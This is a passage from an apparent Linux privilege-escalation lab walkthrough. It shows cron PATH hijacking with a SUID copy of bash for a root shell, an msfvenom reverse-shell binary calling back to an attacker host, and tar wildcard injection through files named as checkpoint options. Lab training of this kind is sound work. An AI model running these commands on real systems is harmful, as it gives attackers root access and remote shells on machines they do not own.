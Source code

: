 View the contents of the system-wide crontab:

```bash
cat /etc/crontab
```

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:

```bash
chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

## 10. Cron Jobs - Wildcards

View the contents of the other cron job script:

```bash
cat /usr/local/bin/compress.sh
```

Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```bash
chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
